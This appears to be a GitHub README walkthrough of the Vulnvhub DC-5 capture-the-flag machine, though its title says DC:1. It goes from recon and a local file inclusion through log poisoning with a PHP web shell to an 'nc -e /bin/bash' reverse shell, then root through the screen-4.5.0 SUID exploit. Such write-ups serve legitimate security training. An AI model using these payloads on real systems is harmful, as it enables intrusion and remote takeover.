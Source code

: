 # DC:1 CTF Walkthrough (Vulnhub) 

###### <p align="center"> *This is official repository maintained by me*</center> </p>
###### <p align="center"> *[yigitdrbk](https://www.instagram.com/yigitdrbk/) *</center> </p>

DC:5 is a CTF created by DCAU. You can find the technical information about this CTF on the VulnHub page. First of all, make sure to download and install the correct OVA file from VulnHub. (https://download.vulnhub.com/dc/DC-5.zip).

This CTF is more challenging than others. Because it is hard to find LFI vulnerability at first. But exploitation is more simple than others.

## 1-Recon
As always, I started with reconnaissance. I used Rustscan, nmap, directory searching, and reviewed the website’s code.
```bash
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 64
111/tcp   open  rpcbind syn-ack ttl 64
47089/tcp open  unknown syn-ack ttl 64

nmap -PN -sC -sV --script vuln -p 80,111,47089 <machine_ip> -oN finalscan

dirsearch -u <machine_ip>
```

It is not a CMS, so there’s no need to add this machine’s IP to /etc/hosts. I didn’t find anything special from either the port scanning or directory scanning.

When I visited the webpage, I saw directories like home, solutions, about us, and so on.

![DC5](https://miro.medium.com/v2/resize:fit:828/format:webp/1*qfbk60arf9LQfYxUQFu1RA.png "DC5")

It is obvios that contact page is suspicious. So I tried to found some bug with burpsuite here.

I give the parameters website to contact and the url was looking like this :

![DC5](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*ub_v_OSz60LMq8y26-ygzA.png "DC5")

I tried changing the variables and attempted directory traversal using "../../../", but I didn’t find anything. Finally, I added an argument file=/etc/passwd, and it gave me the passwd file. This vulnerability is called Local File Inclusion (LFI), and it’s a critical vulnerability.

I checked the access.log and error.log files because they store user requests, and it seems I can modify them. The access.log file logs user requests to the server, while error.log logs errors generated by the server.

```bash
10.0.2.4 - - [23/Oct/2024:10:05:33 -0400] "GET / HTTP/1.1" 200 432 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```

![DC5](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*0NcYYUKR5eBhYQAvVVLikA.png "DC5")

As you can see above access.log keeps the header parameters too. So I can inject some malicious code here. I injected below php code for giving me the authority to run commands on website. So that I will take the reverse shell.

## 2- Reverse Shell

I poison the url by :

```bash
10.0.2.14/thankyou.php?firstname=yigit&lastname=drbk&file=<?php system($_GET['cmd']) ?>
```
This command will add a php code in access.log directory. I can access it with url and run the netcat now.

```bash
http://10.0.2.14/thankyou.php?firstname=merhaba&lastname=merhaba&file=/var/log/nginx/error.log&cmd=id 
```

The above example is example of how can I run the command with cmd.

I run the netcat on my local computer and connect it with url.

```bash
rlwrap nc -lvnp 1234

http://10.0.2.14/thankyou.php?file=/var/log/nginx/error.log&cmd=nc -e /bin/bash 10.0.2.4 1234
```

So that I have a shell. I run the next classic commands.

```bash
pyton -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

I tried to find out what I could run with root privileges on this machine because the current user is www-data, and I wanted to escalate to root. Running sudo -l and some basic find commands didn’t yield any results. I also checked the operating system version and other details. After researching online, I found the next command that helped.

```bash
find / -perm -u=s -type f 2>/dev/null
```

This give me something interesting.

![DC5](https://miro.medium.com/v2/resize:fit:640/format:webp/1*A4qZBu72aqrAzjIGwMKYOg.png "DC5")

As you can see above, at first glance, screen-4.5.0 looked suspicious. So, I searched for it using searchsploit. Searchsploit provided a PoC (Proof of Concept) text file and an exploit bash script. The next step is to follow the instructions in the exploit file.

![DC5](https://miro.medium.com/v2/resize:fit:828/format:webp/1*vZqFH0EdBCgnnHeZiv9ekA.png "DC5")

After that you should compile the files like the yellow lines. And then you should give the files to your www-data user session (netcat session).

You can do this as below

```bash
python -m SimpleHttpServer
php -S <machine_ip>:<port>
```

Finally get this files with wget and run. Now you have root and you can read the flag.

Developer / Author: [yigitdrbk](https://www.instagram.com/yigitdrbk/)